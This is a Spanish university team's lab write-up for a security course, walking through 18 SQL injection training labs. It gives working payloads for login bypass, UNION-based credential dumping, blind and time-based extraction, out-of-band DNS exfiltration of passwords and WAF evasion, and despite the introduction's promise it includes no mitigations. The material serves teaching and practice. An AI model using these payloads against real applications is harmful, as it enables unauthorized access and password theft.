Road To Hall of Fame
SQL Injection Roadmap - Actividad 08
SQL Injection Labs Roadmap
Materia: CNO V: Seguridad Informática
Parcial: PARCIAL II: TÉCNICAS DE EXPLOTACIÓN DE VULNERABILIDADES Y SEGURIDAD EN ENTORNOS TECNOLÓGICOS
Profesor: Mtro. Servando López Contreras
Equipo 4:
- 179033 Alonso Castillo Omar Karim
- 177622 Cruz Juárez Francisco Javier
- 175031 Espinoza Aguilar Brian Salvador
- 177685 Martinez Lara Santiago de la Cruz
- 173030 Sánchez Ramirez Mayeli
- 177263 Sánchez Zavala Alan Gilberto
Bienvenidos al módulo Road to Hall of Fame enfocado en SQL Injection. Este apartado presenta una arquitectura de progreso a través de los diversos laboratorios prácticos superados durante el curso. A continuación se documenta el progreso estructurado de los 18 retos vulnerables y analizados, detallando la evidencia, cargas maliciosas utilizadas (payloads) y las mitigaciones teóricas requeridas.
BLOQUE 1: SQLi Apprentice (Fundamentos)
1. Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data
Objetivo: Visualizar productos no publicados de todas las categorías.
Explicación Técnica: La falta de validación en el parámetro category permite inyectar operadores lógicos para anular la restricción released = 1 en la consulta SQL.
' OR 1=1--

2. Lab: SQL injection vulnerability allowing login bypass
Objetivo: Acceder a la cuenta administrator sin conocer la contraseña.
Explicación Técnica: El formulario de autenticación es vulnerable; al cerrar la cadena del nombre de usuario y comentar el resto, se omite la verificación del password.
administrator'--

Fase 2: Enumeración y Exfiltración (UNION-Based)
3. Lab: SQL injection attack, querying the database type and version on OracleAppretince
Objetivo: Obtener la versión de la base de datos Oracle.
Explicación Técnica: Falta de sanitización permite alterar la consulta para acceder a la vista del sistema v`$version.
'+UNION+SELECT+BANNER,+NULL+FROM+v`$version-- (Une la consulta original con la versión de Oracle, rellenando con NULL la columna faltante).

4. Lab: SQL injection attack, querying the database type and version on MySQL and Microsoft
Objetivo: Mostrar la versión del sistema gestor (MySQL/MSSQL).
Explicación Técnica: Entrada no validada en la categoría permite inyectar variables de sistema combinadas con resultados legítimos.
' UNION SELECT @@version, NULL# (Extrae la variable global @@version y comenta el resto de la sentencia).

5. Lab: SQL injection attack, listing the database contents (non-Oracle)
Objetivo: Enumerar tablas/columnas y obtener credenciales de administrador.
Explicación Técnica: Uso de la cláusula UNION para consultar el esquema de información (Information Schema) y volcar tablas ocultas.
' UNION SELECT username_x, password_y FROM users_z-- (Combina resultados visibles con datos extraídos de la tabla descubierta).

6. Lab: SQL injection attack, listing the database contents on Oracle
Objetivo: Mapear la base de datos Oracle y extraer credenciales.
Explicación Técnica: En Oracle se usan vistas del sistema (all_tables, all_tab_columns) en lugar de Information Schema para enumerar la estructura.
' UNION SELECT USERNAME_X, PASSWORD_X FROM USERS_X-- (Extrae las columnas descubiertas previamente).

7. Lab: SQL injection UNION attack, determining the number of columns returned by the query
Objetivo: Descubrir el número exacto de columnas de la consulta original.
Explicación Técnica: UNION exige coincidencia de columnas. Se miden inyectando valores nulos iterativamente hasta evitar un error 500.
'+UNION+SELECT+NULL,NULL,NULL-- (Inyecta valores nulos secuenciales para empatar la estructura original).

8. Lab: SQL injection UNION attack, finding a column containing text
Objetivo: Identificar qué columnas admiten tipos de datos string (texto).
Explicación Técnica: Se prueban cadenas literales en cada posición de la inyección para identificar dónde no hay choque de tipos de datos.
'+UNION+SELECT+NULL,+'abc',+NULL-- (Prueba compatibilidad de texto desplazando el valor en cada posición).

9. Lab: SQL injection UNION attack, retrieving data from other tables
Objetivo: Extraer de forma directa usuarios y contraseñas.
Explicación Técnica: Falla de segmentación que permite a la consulta pública de productos acceder a la tabla confidencial de cuentas.
'+UNION+SELECT+username,+password+FROM+users-- (Cruza a la tabla users y vuelca 2 columnas en pantalla).

10. Lab: SQL injection UNION attack, retrieving multiple values in a single column
Objetivo: Recuperar múltiples valores cuando solo hay una columna de texto disponible.
Explicación Técnica: Concatenación lógica a nivel de motor SQL para unir varios campos y burlar la limitación visual.
union select null, username ||'*'||password from users -- (Une usuario y contraseña separándolos con un asterisco).

Fase 3: Inferencia de Datos (Blind SQLi)
11. Lab: Blind SQL injection with conditional responses
Objetivo: Extraer la clave infiriendo caracteres basados en mensajes condicionales.
Explicación Técnica: La vulnerabilidad en la cookie altera el comportamiento de la página (muestra "Welcome back!") solo si la condición es verdadera.
' and (select substring(password,1,1) from users...)='a' -- (Comprueba si la primera letra es 'a', iterando el proceso).

12. Lab: Blind SQL injection with conditional errors
Objetivo: Exfiltrar datos forzando errores 500 controlados.
Explicación Técnica: Manipulación de cookie en Oracle para generar un fallo matemático intencional condicionado a una verdad lógica.
'|| (select case when (...) then to_char(1/0) else '' end...) ||' (Fuerza división por cero si la letra probada es correcta).

13. Lab: Visible error-based SQL injection.
Objetivo: Imprimir la contraseña directamente en un mensaje de error del servidor.
Explicación Técnica: Explotación de funciones de conversión de tipos (CAST); al fallar, el motor de BD escupe el dato original en el error.
' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)-- (Falla al convertir el string a entero, revelando el string).

14. Lab: Blind SQL injection with time delays
Objetivo: Confirmar vulnerabilidad provocando un retraso exacto de 10 segundos.
Explicación Técnica: Inyección de funciones de pausa del sistema (como pg_sleep) cuando no hay respuesta visual de la vulnerabilidad.
x'|| pg_sleep(10) -- (Instruye directamente al proceso de PostgreSQL a inhabilitarse por 10 segundos).

15. Lab: Blind SQL injection with time delays and information retrieval.
Objetivo: Extraer la contraseña midiendo latencias de red.
Explicación Técnica: Combinación de comandos de retardo y lógica binaria (CASE WHEN) para adivinar caracteres según la demora del servidor.
SELECT CASE WHEN (condición) THEN pg_sleep(10) ELSE pg_sleep(0) END (Pausa 10s si el carácter adivinado es correcto).

Fase 4: Exfiltración Externa y Evasión
16. Lab: Blind sql injection with out-of-band interaction
Objetivo: Confirmar inyección ciega forzando una petición DNS externa.
Explicación Técnica: Uso de funcionalidades de conexión de red de la base de datos para resolver un dominio controlado por el atacante (Burp Collaborator).
'||(SELECT ... FROM ... )-- (Subconsulta embebida que contiene el dominio externo para forzar el DNS Lookup).
17. Lab: Blind sql injection with out-of-band data exfiltration
Objetivo: Extraer la contraseña enviándola a un servidor externo.
Explicación Técnica: El dato robado se inserta como prefijo (subdominio) en la solicitud DNS generada hacia la infraestructura del atacante.
'||(SELECT password...) || '.dominio-colaborador'-- (La base de datos resuelve el dominio enviando consigo la clave en la URL).
18. Lab: SQL injection with filter bypass via xml encoding
Objetivo: Burlar el Firewall de Aplicaciones Web (WAF) para inyectar sentencias.
Explicación Técnica: El WAF bloquea sintaxis SQL en texto plano, pero ignora entidades codificadas en XML Hexagonal, las cuales el backend sí procesa.
UNION SELECT username || ':' || password FROM users (Totalmente ofuscado usando Hackvertor en formato XML Hex).